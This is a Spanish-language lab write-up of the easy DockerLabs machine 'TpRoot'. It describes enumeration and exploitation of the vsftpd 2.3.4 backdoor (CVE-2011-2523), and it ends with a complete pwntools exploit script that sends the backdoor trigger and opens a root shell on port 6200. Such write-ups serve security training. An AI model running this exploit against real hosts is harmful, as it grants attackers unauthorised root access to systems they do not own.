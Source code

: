 ```yaml
---
layout: post
title: "TpRoot - Dockerlabs - Linux - Fácil"
date: 2025-08-24
img: /assets/img/tproot/banner.png
---
```

TProot es una máquina Linux de nivel fácil en DockerLabs que nos permite practicar enumeración básica y explotación de vulnerabilidades conocidas.



**Enumeración**

Comenzamos con un reconocimiento de la máquina objetivo.

![img1](/secnotes/assets/img/tproot/1.png)

![img2](/secnotes/assets/img/tproot/2.png) 

Con la herramienta **searchsploit** veremos si existe alguna vulnerabilidad sobre el servicio _vsdtpd 2.3.4_

![img3](/secnotes/assets/img/tproot/3.png)
 
Encontramos un script de ejecución de comandos a través de una puerta trasera (backdoor). Esto se ejecuta conectándonos a un servicio aparentemente legitimo (FTP, HTTP, etc), enviamos un trigger (Usuario especial, header, token, etc) el servicio abre un puerto oculto o devuelve una shell, y al conectarnos a ese puerto podemos ejecutar comandos.

Esta corresponde a la vulnerabilidad CVE-2011-2523. En Exploit database encontramos un script para comprometer este servicio.

![img4](/secnotes/assets/img/tproot/4.png) 

Para ejecutarlo vamos a crear un entorno aislado con Python3 

![img5](/secnotes/assets/img/tproot/5.png) 

Esto sirve para poder instalar paquetes independientes en el sistema sin comprometer las librerías de nuestro Kali. Es útil para trabajar con distintas versiones de las librerías.

Ejecutamos el script que descargamos pero nos da un error. Indica que no tenemos la librería de telnet en nuestro sistema, esto pasó por que la versión actual de Python (3.13.5) elimino estas librerias que traía por defecto. 
 
![img6](/secnotes/assets/img/tproot/6.png) 

![img7](/secnotes/assets/img/tproot/7.png) 


con el siguiente comando podemos ejecutar directamente la versión 3.11.13 de Python desde un contenedor de docker en nuestro entorno aislado

`docker run -it --rm -v "$PWD":/work -w /work python:3.11 bash
python3 –version`

![img8](/secnotes/assets/img/tproot/8.png)

 
Al ejecutar el script obtendremos automaticamente una shell como usuario root en la máquina víctima.

![img10](/secnotes/assets/img/tproot/10.png)



**Opcion 2:**

Podemos modificar el script para reemplazar telnet por pwntools, así el script funcionará con las versiones actuales de python 

```python
from pwn import *
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    print('[✦] Exiting...')
    exit(0)

signal(SIGINT, handler)

parser = argparse.ArgumentParser()
parser.add_argument("host", help="Target IP address", type=str)
args = parser.parse_args()

host = args.host
portFTP = 21

user = b"USER nergal:)"
password = b"PASS pass"

ftp = remote(host, portFTP, timeout=5.0)
banner = ftp.recvline(timeout=5.0)
print(f"[✦] Banner: {banner.strip().decode(errors='ignore')}")
ftp.sendline(user)
ftp.recvuntil(b"pass", timeout=3.0)  # más laxo que "password."
ftp.sendline(password)
ftp.close()

try:
    shell = remote(host, 6200, timeout=5.0)
    print("[✦] Success, shell opened")
    print("[i] Type 'exit' to quit")
    shell.interactive()
    shell.close()
except Exception as e:
    print(f"[!] Error: {e}")




![img12](/secnotes/assets/img/tproot/12.png) 


